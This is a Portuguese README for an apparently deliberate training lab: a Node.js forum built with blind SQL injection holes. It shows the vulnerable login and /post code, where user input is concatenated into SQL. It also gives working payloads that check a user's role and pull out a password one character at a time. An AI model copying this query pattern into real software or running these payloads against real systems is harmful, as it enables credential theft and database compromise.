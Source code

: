 # Fórum com Injeção Blind SQL 

## Configuração

1. Instale as dependências:

```
npm install
```

2. Inicialize o banco de dados com dados de exemplo:

```
node setup-db.js
```

3. Inicie o servidor:

```
npm start
```

4. Acesse o fórum em: http://localhost:3000

## Vulnerabilidades

### 1. Injeção SQL na Página de Login

A página de login também é vulnerável à injeção SQL. As entradas do usuário para nome de usuário e senha são concatenadas diretamente na consulta SQL sem sanitização:

```javascript
app.post("/login", (req, res) => {
  const { username, password } = req.body;

  // VULNERÁVEL: Blind SQLi cega na consulta de login
  // concatenando diretamente a entrada do usuário na consulta SQL
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

  db.get(query, (err, user) => {
    // ...manipulação da resposta...
  });
});
```

Mensagem de teste' AND (SELECT role FROM users WHERE username='PaulAtreides')='admin' AND '1'='1

### 2. Injeção SQL Cega na Postagem de Mensagens

O endpoint `/post` para postar novas mensagens também é vulnerável à injeção SQL cega. Isso pode ser explorado para extrair dados do banco de dados:

```javascript
app.post("/post", (req, res) => {
  const { username, content, planet } = req.body;

  // VULNERÁVEL: Injeção SQL cega na postagem de mensagem
  const query = `INSERT INTO messages (username, content, planet) 
                  VALUES ('${username}', '${content}', '${
    planet || "Desconhecido"
  }')`;

  db.run(query, (err) => {
    // ...manipulação da resposta...
  });
});
```

#### Exemplo de Ataque

Ao postar uma mensagem, você pode usar o seguinte payload no campo de conteúdo para extrair informações de senha caractere por caractere:

```
Essa mensagem não tem nenhum payload', (SELECT CASE WHEN (SELECT substr(password,1,1) FROM users WHERE username='PaulAtreides')='a' THEN 'success' ELSE 'fail' END)) -- '
```

#### Explicação do Payload:

1. Fecha a string atual com uma aspa e adiciona uma vírgula
2. Usa uma instrução CASE para verificar se o primeiro caractere da senha de Paul é 'a'
3. Comenta o resto da consulta

Se o primeiro caractere for 'a', a consulta é executada e retorna success. Se não, ela retorna fail.

Para extrair a senha completa, modifique a posição (altere `1,1` para `2,1` para o segundo caractere) e tente diferentes caracteres.
